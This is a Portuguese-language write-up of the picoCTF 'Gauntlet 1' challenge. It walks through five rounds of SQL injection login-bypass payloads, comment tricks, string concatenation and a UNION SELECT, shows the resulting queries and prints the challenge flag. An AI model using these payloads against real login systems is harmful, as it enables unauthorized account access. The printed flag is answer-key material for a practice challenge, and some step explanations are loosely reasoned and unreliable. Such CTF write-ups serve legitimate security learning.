 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução

Ao acessar o site, somos apresentados a uma tela de login onde precisamos fornecer um nome de usuário e senha. O principal desafio aqui é descobrir como "burlar" a filtragem SQL para conseguir logar como o usuário "admin".

![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)

#### Análise Inicial:

Na página de login, ao tentar submeter credenciais genéricas, observamos que o sistema faz uma consulta SQL com base nas entradas fornecidas. O que nos chamou atenção foi que a consulta estava vulnerável a um SQL Injection. Aqui, começamos a explorar como explorar esse tipo de falha.

![image](https://github.com/user-attachments/assets/75983be8-7be6-46fd-a23d-bb24e4897f6c)

Round 1:
No primeiro round, a consulta SQL aceita o uso de comentários para ignorar a parte da senha. Isso foi feito utilizando o símbolo --, que serve para comentar tudo após ele na consulta.

Entrada:
```
Usuário: admin' --
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'
```

![image](https://github.com/user-attachments/assets/cfa0cf35-6072-4005-8687-220fffe93a8e)

Neste caso, a parte da senha foi ignorada devido ao comentário, permitindo o login com o usuário "admin".

Round 2:
No segundo round, foi possível observar que mais palavras-chave estavam permitidas na consulta SQL, como /*, outro tipo de comentário. A ideia era testar se podíamos usar esses novos filtros para burlar a autenticação.

Entrada:
```
Usuário: admin' /*
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin' /*' AND password='1'
```
O filtro continuou permitindo que a parte da senha fosse ignorada e o login fosse feito com sucesso.

Round 3:
No terceiro round, a consulta aceitou o uso de ;, que finaliza uma consulta SQL e pode ser usada para iniciar uma nova execução. Testamos esse comportamento para tentar criar uma segunda consulta, mas isso não teve efeito imediato no resultado da aplicação.

Entrada:
```
Usuário: admin';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin';' AND password='123'
```
O uso do ; separou as duas partes da consulta, mas a aplicação não alterou a execução.

Round 4:
Nesse round, testamos um método diferente de injeção, tentando usar a concatenação para formar o nome de usuário "admin". Isso foi feito com a utilização de ||, que permite a junção de strings em consultas SQL.

Entrada:
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
```
A aplicação aceitou a injeção e conseguimos passar para o próximo round.

Round 5:
Finalmente, no último round, conseguimos usar o comando union para injetar nossa própria consulta SQL e visualizar a flag.

Entrada:
```
Usuário: admin' UNION SELECT 1,2,3,4--
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin' UNION SELECT 1,2,3,4--'
```
Com isso, conseguimos obter a instrução para acessar o filter.php.

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  

